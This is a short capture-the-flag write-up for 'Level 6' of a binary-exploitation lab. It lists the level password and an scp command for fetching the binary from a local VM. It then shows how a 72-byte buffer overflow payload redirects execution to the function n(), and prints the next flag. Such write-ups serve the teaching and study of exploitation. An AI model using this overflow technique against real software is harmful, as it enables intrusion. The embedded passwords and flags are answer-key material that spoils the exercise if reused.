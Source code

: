 # Level 6
*password : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31*

```
$ scp -P 4242 level6@192.168.56.108:level6 binary/
```

0x40 = 64

`n()` address : 0x08048454

## Buffer overflow

offset = 4 * 2 = 8
64 + 8 = 72

```
$ ./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
